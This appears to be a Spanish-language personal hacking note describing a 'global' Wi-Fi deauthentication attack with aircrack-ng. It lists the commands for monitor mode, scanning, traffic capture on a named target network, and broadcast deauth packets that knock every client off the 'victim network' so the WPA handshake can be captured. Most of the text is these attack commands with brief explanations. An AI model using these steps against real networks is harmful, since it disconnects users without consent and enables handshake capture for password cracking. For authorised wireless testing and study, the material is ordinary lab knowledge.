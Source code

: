 # DeAuth Global
Esto lo que hace es desautentificar a cualquiera que se encuentre en la red victima

	airmon-ng wlan1 start
Iniciar la tarjeta de red en modo monitor

	airodump-ng wlan1mon
Escanear las redes disponibles
DOB66F5A4CBF

	airodump-ng -w CapturaDeAuthGlobal --essid INFINITUM33B5 wlan1mon
Con esto lo que se hace es capturar todoel trafico que pasa por la red y guardarlo en un archivo, aqui es donde se capturara el [[HandShake]]

	aireplay-ng -0 10 -e INFINITUM33B5 -c FF:FF:FF:FF:FF:FF wlan1mon
Esto manda 10 paquetes de desautentificacion a todos los dispositivos conectados al essid proporcionado por medio del [[Broadcast]]
- 0 *espicificamos que es un ataque DeAuth*
- 10 *la cantidad de paquetes de deseautentificacion enviados*
- e *essid de la red victima*
- c *broadcast* (Este parametro se puede omitir, ya que Air lo incluye)

Despues de esto los dispositivos seran desconectados y reconectados a las red automaticamente, para esto nuestra tarjeta de red habra capturado el [[HandShake]].